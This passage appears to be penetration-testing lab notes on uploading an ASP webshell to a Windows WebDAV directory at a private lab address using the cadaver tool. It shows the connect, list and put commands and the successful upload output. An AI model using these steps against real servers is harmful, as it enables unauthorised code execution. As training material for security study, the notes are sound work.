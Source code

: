 > 📌 Summary:
>
> - All important file types can be uploaded to the `/webdav` directory
> - `.txt`, `.asp`, `.html` files can be executed

### [cadaver](https://www.kali.org/tools/cadaver/)

- Use `cadaver` to upload an `.asp` payload to the `/webdav` directory

```bash
cadaver http://10.3.26.115/webdav
```

```bash
dav:/webdav/> ls
# commands can be used on the web server dav directory
```

![dav:/webdav/>](windows-attacksassets/image-20230310140157782.png)

```bash
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
```

```bash
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.

# webshell payload uploaded successfully
```

![](windows-attacksassets/image-20230310140533335.png)
